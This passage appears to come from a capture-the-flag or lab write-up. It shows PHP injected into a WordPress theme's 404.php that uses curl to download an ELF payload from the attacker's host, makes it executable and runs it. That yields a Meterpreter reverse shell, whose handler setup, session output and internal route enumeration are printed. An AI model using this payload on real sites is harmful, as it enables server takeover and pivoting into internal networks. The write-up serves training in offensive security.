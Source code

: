 on the wordpress panel, navigating to **Appearances** -> **Editor** -> **404.php**, we can inject this little php code.

```php
<?php
echo "[*] Check your meterpreter listener :\n";
system("curl 10.9.123.226/shell.elf --output /tmp/shell.elf");
system("chmod +x /tmp/shell.elf");
system("/tmp/shell.elf");
?>
```
clicked the button Update File, then requesting that file.

<br>

in metasploit we can see our shell popup
```
msf5 exploit(multi/handler) > set LHOST 10.9.123.226 
LHOST => 10.9.123.226
msf5 exploit(multi/handler) > set LPORT 4444 
LPORT => 4444
msf5 exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf5 exploit(multi/handler) > run 

[*] Started reverse TCP handler on 10.9.123.226:4444 
[*] Sending stage (980808 bytes) to 10.10.88.1
[*] Meterpreter session 1 opened (10.9.123.226:4444 -> 10.10.88.1:45944) at 2020-09-23 17:18:57 +0100

meterpreter > getuid
Server username: no-user @ 35cebab33844 (uid=33, gid=33, euid=33, egid=33)
```

<br>

<h2 id="Internal-enumeration-Pivoting">Internal enumeration & Pivoting</h2>

once i got inside the internal network, further enumeration was required

**Network Maping**

```
meterpreter > route 

IPv4 network routes
===================

    Subnet      Netmask        Gateway     Metric  Interface
    ------      -------        -------     ------  ---------
    0.0.0.0     0.0.0.0        172.18.0.1  0       eth2
    10.0.0.0    255.255.255.0  0.0.0.0     0       eth1
    10.255.0.0  255.255.0.0    0.0.0.0     0       eth0
    172.18.0.0  255.255.0.0    0.0.0.0     0       eth2

No IPv6 routes were found.
```
